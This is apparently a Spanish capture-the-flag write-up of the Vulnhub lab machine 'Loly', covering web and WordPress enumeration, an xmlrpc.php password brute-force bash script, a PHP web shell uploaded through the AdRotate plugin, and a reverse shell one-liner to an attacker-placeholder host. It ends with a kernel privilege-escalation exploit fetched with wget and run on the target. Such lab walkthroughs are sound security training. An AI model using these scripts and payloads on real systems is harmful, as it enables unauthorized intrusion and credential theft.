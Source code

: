 ```yaml
---
layout: single
title: Loly - Vulnhub
date: 26/10/2023
classes: wide
header:
  teaser_home_page: true
  icon: /assets/images/vulnhub.webp

tags:
  - Web Enumeration
  - WordPress Enumeration
  - Abusing xmlrpc.php
  - Bash advanced
  - Abusing AdRotate Manage Media > RCE
  - Kernel Exploitation
  - fácil
  - linux
---
```


Para vulnerar esta máquina, debemos hacer fuzzing en la IP de la máquina víctima para descubrir el directorio del CMS, también debemos enumerar el CMS, para tener una pista, luego de enumerar bien el directorio del CMS descubriremos un el recurso del cual podemos aprovecharnos para obtener usuarios válidos mediante un ataque de fuerza bruta con un script en bash, una vez hecho esto aprovecharnos del plugin qué tiene el CMS para subir un archivo malicioso, del cual nos aprovecharemos para llevar a cabo un RCE.



# PortScan
____

```
 # Nmap 7.93 scan initiated Thu Oct 26 12:15:10 2023 as: nmap -sCV -p80 -oN targeted 192.168.204.155
 Nmap scan report for loly.lc (192.168.204.155)
 Host is up (0.00065s latency).
 
 PORT   STATE SERVICE VERSION
 80/tcp open  http    nginx 1.10.3 (Ubuntu)
 |_http-server-header: nginx/1.10.3 (Ubuntu)
 |_http-title: Welcome to nginx!
 MAC Address: 00:0C:29:C2:90:A8 (VMware)
 Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
 
 Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
 # Nmap done at Thu Oct 26 12:15:17 2023 -- 1 IP address (1 host up) scanned in 7.68 seconds
```

# Sitio Web
____

![](/assets/images/loly/Pasted image 20231026142343.png)

El sitio web de Loly es bastante básico, por lo que procedemos a buscar nuevas rutas mediante el fuzzing.


```
gobuster dir -u http://192.168.204.155 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash
```

```
/wordpress/           (Status: 200) 
```

El directorio tiene un enlace a un vhost con nombre "**loly.lc**". Agregamos esto a nuestro servidor en el "/etc/hosts" para poder ver el directorio "wordpress" con su respectivo estilo.

Indagando en el Wordpress, vemos un sólo post de único usuario

![](/assets/images/loly/Pasted image 20231026143125.png)

Por lo que ya sabemos un usuario válido.

# Enumeración WordPress
_____

```
gobuster dir -u http://192.168.204.155/wordpress/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash -x php,wp
```

Veremos qué tenemos el "**xmlrpc.php**" expuesto, y otros directorios.
```
/index.php            (Status: 301) [Size: 0] [--> http://192.168.204.155/wordpress/]
/wp-content/          (Status: 200) [Size: 0]                                        
/wp-login.php         (Status: 200) [Size: 6744]                                     
/wp-includes/         (Status: 403) [Size: 178]                                      
/wp-trackback.php     (Status: 200) [Size: 135]                                      
/wp-admin/            (Status: 302) [Size: 0] [--> http://loly.lc/wordpress/wp-login.php?redirect_to=http%3A%2F%2F192.168.204.155%2Fwordpress%2Fwp-admin%2F&reauth=1]
/xmlrpc.php           (Status: 405) [Size: 42]   
```

![](/assets/images/loly/Pasted image 20231026143323.png)

Y nos dice que el XMLRPC sólo acepta peticiones por POST, por lo qué podríamos tratar de abusar de este recurso para obtener las credenciales válidas mediante un script en Bash, y para corroborarlo debemos mandarle una solicitud con el método GET con una estructura XML qué nos permita listar los métodos disponibles del recurso XMLRPC, y sí el método "wp.getUsersBlogs" está activo, podremos realizar un script en bash que mediante fuerza bruta nos permita obtener las credenciales válidas.

```
curl -s -X POST "http://loly.lc/wordpress/xmlrpc.php" -d@file.xml | grep "wp.getUsersBlogs"
```

y como vemos el método está activo.
```
<value><string>wp.getUsersBlogs</string></value>
```

# Fuerza Bruta XMLRPC en bash.
____

Nos montamos este script en bash.
```
#!/bin/bash


function createXML(){
  password=$1

  xmlFile="""
<?xml version=\"1.0\" encoding=\"utf-8\"?>
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>loly</value></param>
<param><value>$password</value></param>
</params>
</methodCall>"""


  echo $xmlFile > file.xml
  response=$(curl -s -X POST "http://loly.lc/wordpress/xmlrpc.php" -d@file.xml)
  if [ ! "$(echo $response | grep "Incorrect username or password.")" ]; then
    echo -e "\n[+] La contraseña para 'loly' es: $password"
    exit 0 
  fi 

}


cat /usr/share/wordlists/rockyou.txt | while read password; do 
  createXML $password

done
```

Una vez ejecutado, nos dará las credenciales válida del usuario "loly".


# Abuso Plugin AdRotate.
____

Sí nos fijamos en el plugin AdRotate, podremos subir archivos en formatos .zip y automáticamente se descomprimirían.

![](/assets/images/loly/Pasted image 20231026144909.png)

Por lo que podemos aprovecharnos de subir un código malicioso en **PHP** comprimido el cual nos permita llevar a cabo un RCE desde la URL, para ello debemos convertirlo en zip y posteriormente subirlo.

El código malicioso .PHP tendrá lo siguiente:
```
<?php system($_GET['cmd']); ?>
```

Lo convertimos a zip, para posterior a ello subirlo en el plugin AdRotate, el cual lo descomprimirá y tan sólo se quedará con la extensión .PHP, pero para aprovecharnos de este archivo malicioso que subimos, debemos saber donde se guarda, por lo qué abajo nos deja una pista, que el directorio final sería /banners, y si nos fijamos en el fuzzing que hicimos anteriormente había un directorio /wp-content, donde suele guardarse el contenido de los WordPress, por lo qué el recurso estaría en "/wp-contet/banners/nombre_del_recurso_subido"

![](/assets/images/loly/Pasted image 20231026145053.png)

Y ya desde la URL estamos llevando a cabo un RCE, por lo que podemos entablarnos una Reverse Shell con el típico one line y conectarnos a la máquina.
```
http://loly.lc/wordpress/wp-content/banners/cmd.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/ip_atacante/443%200%3E%261%22
```

# Escalada de Privilegios.
____

```
uname -a
Linux ubuntu 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
```
Sí buscamos esta versión de Kernel en searchsploit, veremos que es vulnerable a escalada de Privilegios. 

![](/assets/images/loly/Pasted image 20231026150048.png)

Por lo que obtenemos este script, para compilarlo, subirlo a la máquina víctima & ejecutarlo desde allí.
```
searchsploit -m linux/local/45010.c
mv 45010.c dirty.c
gcc -pthread dirty.c -o dirty -lcrypt
python3 -m http.server 80
```
Y ya desde la máquina víctima obtenemos el recurso donde tengamos de escritura.
```
wget ip_de_atacante/dirty
chmod +x dirty
./dirty
```
y así escalaremos como ROOT.

![](/assets/images/loly/Pasted image 20231026150312.png)
